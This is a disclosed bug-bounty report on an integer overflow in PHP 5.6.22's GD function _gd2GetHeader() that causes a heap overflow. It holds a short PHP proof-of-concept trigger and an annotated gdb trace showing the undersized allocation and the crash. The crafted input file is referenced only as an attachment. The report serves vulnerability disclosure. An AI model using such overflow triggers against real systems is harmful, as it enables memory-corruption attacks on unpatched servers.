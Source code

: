 # Integer Overflow in _gd2GetHeader() resulting in heap overflow

## Report Details
- **Report ID**: 143234
- **URL**: https://hackerone.com/reports/143234
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-06-05T19:55:10.069Z
- **Disclosed**: 2019-11-12T09:34:58.187Z

## Reporter
- **Username**: gogil
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
The _gd2GetHeader() is prone to an integer overflow, which result in heap based overflow.

Tested on PHP 5.6.22

--------------- PoC ---------------
$ ls
poc.gd   poc.php
$ cat poc.php
<?php imagecreatefromgd2("poc.gd"); ?>


--------------- Result ---------------
/php$ gdb -q --args ./php-5.6.22/sapi/cli/php poc.php
Reading symbols from /php/php-5.6.22/sapi/cli/php...done.
(gdb) b gd_gd2.c:139
Breakpoint 1 at 0x570869: file /php/php-5.6.22/ext/gd/libgd/gd_gd2.c, line 139.
(gdb) r
Starting program: /php/./php-5.6.22/sapi/cli/php poc.php

Breakpoint 1, _gd2GetHeader (in=0x7ffff7fd0ac0, sx=0x7fffffffa520, 
    sy=0x7fffffffa524, cs=0x7fffffffa530, vers=0x7fffffffa534, 
    fmt=0x7fffffffa538, ncx=0x7fffffffa528, ncy=0x7fffffffa52c, 
    chunkIdx=0x7fffffffa540) at /php/php-5.6.22/ext/gd/libgd/gd_gd2.c:139
139			nc = (*ncx) * (*ncy);      <---------- ncx(Chunks wide) is 0x5b00, ncy(Chunks high) is 0x5b00
<---------- As a result, 'nc' is 0x20590000.

(gdb) x/xw ncx
0x7fffffffa528:	0x00005b00
(gdb) x/xw ncy
0x7fffffffa52c:	0x00005b00
(gdb) n
141			sidx = sizeof(t_chunk_info) * nc;      <---------- sizeof(t_chunk_info) is 0x8.
<---------- The result of the multiplication can overflow.

(gdb) n
142			if (sidx <= 0) {
(gdb) n
145			cidx = gdCalloc(sidx, 1);     <---------- gdCalloc() call will allocate a buffer too small to contain the chunk entries.
(gdb) info locals
sidx = 46661632 (0x2C80000)
nc = 542703616 (0x20590000)
...
(gdb) n
146			for (i = 0; i < nc; i++) {
(gdb) n
145			cidx = gdCalloc(sidx, 1);
(gdb) n
146			for (i = 0; i < nc; i++) {
(gdb) n
147				if (gdGetInt(&cidx[i].offset, in) != 1) {    <---------- It cause heap overflow
(gdb) n
151				if (gdGetInt(&cidx[i].size, in) != 1) {
(gdb) n
155				if (cidx[i].offset < 0 || cidx[i].size < 0) {
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
php_gd_gdGetInt (result=result@entry=0x7ffff6116000, 
    ctx=ctx@entry=0x7ffff7fd0ac0) at /php/php-5.6.22/ext/gd/libgd/gd_io.c:103
103		*result = r << 24;
(gdb) 



## Attachments
- poc.zip
